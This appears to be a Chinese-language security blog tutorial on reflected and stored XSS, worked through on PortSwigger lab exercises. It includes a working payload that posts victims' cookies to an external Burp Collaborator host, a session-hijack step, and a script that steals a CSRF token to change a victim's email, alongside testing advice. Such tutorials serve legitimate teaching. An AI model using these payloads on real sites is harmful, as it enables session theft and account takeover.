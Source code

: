 ```yaml
---
title: "XSS 漏洞知解 123"
author: Neal
tags: [reflection xss,xss]
keywords: [xss,web安全,渗透测试,反射型XSS,存储型XSS]
categories: [web安全]
date: "2020-01-04" 
---
```


跨站脚本攻击（Cross-Site Scripting），为了避免与 CSS 混淆，一般简称为 XSS。XSS 作为一种典型的主要可以分为 3 种：

* 反射型 XSS
* 存储型 XSS
* DOM 型 XSS

关于这 3 种 XSS 类型的区别，在这就不展开了，本文主要讲解 XSS 漏洞的利用场景以及如何测试反射型 XSS，当然反射型 XSS 漏洞的测试和其它 XSS 漏洞类型的测试存在很多共同之处的。通常来说，通过 XSS 漏洞攻击者可以在受害者机器上执行任何脚本的话，包括：

* 可以执行受害者可以执行的任何操作
* 可以浏览受害者可以浏览的任何内容
* 可以修改受害者可以修改的任何信息
* 可以通过最初的受害者与应用中其他用户交互，从而发起对其他用户的攻击

不过值得注意的是，反射型 XSS 总漏洞利用过程中也会遇到较多的障碍，经常可能会遇到很多限制：

* cookie 设置为 httponly，无法通过 JS 直接操控 cookie
* 用户输入的内容被进行过滤或者编码
* 受害者可能并没有登录应用，或者应用用户会话与特定的因素有绑定关系，比如 IP 地址或者 MAC 地址，这种情况比较少见

## 典型利用场景

XSS 的利用场景其实是五花八门的，可以说只要你敢想，搞不好你就可以做得到。这里，我们可以选择两个最典型的利用场景进行讲解。在这里我主要使用 PortSwigger 的应用安全学院里面的 lab 进行讲解。

### 盗取 cookie

通过 XSS 漏洞盗取 cookie 可以说是最典型的利用场景了。不过现在随着 HttpOnly 的广泛应用，这一利用场景也产生了一些限制。但是 HttpOnly 也并不能完全保证 XSS 漏洞的防范，因为 HttpOnly 理论上应该覆盖所有的敏感 cookie，如果有一处没有覆盖到，就有被攻击的可能性。另外一方面，通过结合 CORS 也有突破限制的可能性。还有一个实际情况是，仍然有很多应用并没有使用 HttpOnly，本节也主要是针对这一情形的具体利用。

假设有一个博客平台，目前我们已经发现博文的评论处存在存储型 XSS 漏洞。那么如果其它用户打开这一篇博文，就可以通过这个漏洞让这名用户执行任意 JS 脚本，基本上就可以进行任何操作。如果这一名用户是管理员的话，那么危害性就更大，理论上这个管理用在这个博客可以执行的任何操作，攻击者都可以实现。这个攻击场景主要分为三步：

1. 攻击者创建一个 Web 服务，需要保证受害者和这个服务之间是连通的。
2. 注入 XSS 的 payload，实现通过 JS 获取受害者 cookie，并发送给攻击者创建的服务
3. 攻击者通过获取的 cookie 则可以成为应用的合法用户并执行任何操作

创建 web 服务非常简单，可以使用 python 命令既可以创建服务，`python -m SimpleHTTPServer 80`。这样就可以指定一个监听 80 端口的 web 服务。其实 Burp 提供了一个非常实用的利用功能，通过 Burp Collobrator Client 就可以创建一个开放在外网的 web 服务，这样如果你在日常测试中，就无须自己准备一个带有固定 IP 的服务器来创建服务了。

![3ExZJH.png](https://s2.ax1x.com/2020/02/19/3ExZJH.png)

![3Exlef.png](https://s2.ax1x.com/2020/02/19/3Exlef.png)

进入到 Collobrator Client，点击 Copy to clipborad 就可以将服务地址复制到剪切板。我们可以使用 curl 来进行测试：

![3tuMAU.gif](https://s2.ax1x.com/2020/02/25/3tuMAU.gif)

我们可以看到在 client 中可以看到 DNS 请求以及相应的 HTTP 请求，这样通过 Collobrator Client 就不需要在外网自己的服务器下搭建服务。让我们继续重现上面的利用过程，首先我们先准备好要利用的 XSS 的 payload：

```
<script>
fetch('https://d8mzva8z7ou9zrnqkgz49jltyk4asz.burpcollaborator.net',{
    method: 'POST',
    mode: 'no-cors',
    body: document.cookie
})
</script>
```

然后我们只需要在 Collobrator Client 等待请求过来，不出意外的话，我们可以看到 administrator 的 cookie。

![3ax38K.png](https://s2.ax1x.com/2020/02/27/3ax38K.png)

下面我们只需要打开浏览器开发者工具，总控制台中输入 `document.cookie = 'session=Xn8ow3pdmd6LWktVZPJtBlI9yKzIKUX3'`，刷新一下页面，我们就成为管理员了。

![3axGvD.png](https://s2.ax1x.com/2020/02/27/3axGvD.png)

### 通过 XSS 来实现 CSRF

上述的攻击手法有一定的限制之处，而且容易被受害者发现。而配合 CSRF 漏洞，攻击者可以实现执行受害者可以执行的任何操作，并且隐秘性更强。比如我们可以修改用户的邮箱，从而可以充值用户密码。如果受害者是管理员的话，甚至往往可以实现添加用户，删除用户。CSRF 漏洞的防御机制一般是通过 token 来进行防御，但是如果你的应用有 XSS 漏洞，那么这种防御机制就会失效，因为通过 JS 我们就可以获取 token。下面继续通过一个 lab 来演示这种类型的攻击方式：

这个 lab 和之前的一样，这一次我们需要通过 XSS 漏洞来配合 CSRF 漏洞来实现修改受害者的邮箱。首先我们可以通过一个普通用户登录应用，然后发现有一个可以修改邮箱的功能。

![3cJFkq.png](https://s2.ax1x.com/2020/03/01/3cJFkq.png)

通过 Burp 可以捕获修改邮箱的请求：

```
POST /email/change-email HTTP/1.1
Host: acee1f9f1f96dfe38027996900d70058.web-security-academy.net
Connection: close
Content-Length: 57
Cache-Control: max-age=0
Origin: https://acee1f9f1f96dfe38027996900d70058.web-security-academy.net
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.122 Safari/537.36
Sec-Fetch-Dest: document
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Referer: https://acee1f9f1f96dfe38027996900d70058.web-security-academy.net/email
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8,ja;q=0.7,zh-TW;q=0.6
Cookie: session=J7wtDYrnotYBeGxHRbxRQAjwWoER6iPb

email=bbb%40bbb.com&csrf=xmLrs2P4dtFVurZlCUVpJsBnvaGlL4T1
```

可以看到这个修改邮箱的请求包含两个参数，即 `email` 以及 `csrf`，很明显，这个请求是使用了 CSRF 防御的。那么现在可以思考一下如何来执行 CSRF。

1. 首先请求修改邮箱功能的页面，获取页面响应。
2. 在页面响应中匹配 csrf，然后提交修改邮箱的 POST 请求。

![3ctH0J.png](https://s2.ax1x.com/2020/03/01/3ctH0J.png)

```javascript
<script>
var req = new XMLHttpRequest();
req.onload = function() {
    var csrf = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open("POST", "/email/change-email", true);
    changeReq.send("csrf=" + csrf + "&email=hack@hack.com");
}
req.open("GET", "/email", true)
req.send()
</script>
```

只要把上述的 payload 提交到 comment 中，然后提交，就可以实现任何访问这个博客评论的用户都会成为受害者，将其邮箱修改为 `hack@hack.com`。

## XSS 漏洞的测试

接下来可以聊一聊如何测试 XSS 漏洞。不管是手工测试亦或是现在比较流行的被动扫描器的自动化类型的测试，其测试方式基本也是差不多的。

* 测试每一个输入点，每一个 HTTP 请求的输入点都是可以进行测试的，包括 URL 中的参数，以及 BODY，其实 HTTP 头也可以进行测试，不过在实际中，通过请求头的参数来触发 XSS 漏洞的不是太常见。
* 通过输入点提交随机字符串，这么多的目的主要是为了验证通过输入点的 payload 是否影响最终的响应。这里，其实对于自动化类型的测试还有一个小技巧，就是可以在随机字符串中可以去包含一些特殊符号，从而判断应用有没有对相应的符号进行转义，比如单引号、尖括号之类的。
* 找到 payload 在响应中的上下文。这一点其实比较重要的，这关系到你该如何去利用 XSS 漏洞。因为输入点映射在不同的位置，会影响到漏洞的利用方式。比如你的输入点的 payload 可以对应于 HTML 标签中、HTML 标签中的属性，或者是映射到 JS 文件中，通过这些，你可以更好地知道如何去利用 XSS 漏洞。
* 下面就是利用一些常见的 XSS payload 来进行测试，这里可以推荐 Burp 提供的 [XSS payload](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)。里面对于不同的浏览器，不同的标签，甚至不同的属性，都有对应的 payload。当然，很有可能这些 payload 并不能直接成功，这个时候可能还需要结合上一点一起看一看来做相应的调整。不过这个 cheetsheet 里面可能已经足够了，可能还是最终没有找到合适的 payload。

对于漏洞的验证，人工测试往往比较直观，大多数都是通过 `alert` 弹窗的形式来验证漏洞是否存在。而对于自动化的漏洞测试工具而言，对于 XSS 漏洞的验证方式可能就会稍微复杂一点，包括验证响应的 `Content-Type`，然后接着验证输入点的输入是如何作用于响应中，通过对响应的解析从而验证漏洞是否利用成功。另外还有一种方式是通过 headless 浏览器去实现，让后来监听弹窗事件，这种测试方式接近于人工测试，但也更加消耗时间和性能。

## 总结

XSS 漏洞作为 Web 应用最为典型的漏洞之一，屡出不鲜。因为 XSS 的漏洞往往要考虑很多因素，包括转义、过滤、以及考虑到应用自身业务的需求，从而避免业务需求和防御需求的冲突。并且防御必须覆盖到应用的每一个输入点，即使仅有一个输入点存在漏洞，应用就存在被攻破的可能性。

## Reference

* https://portswigger.net/web-security/cross-site-scripting

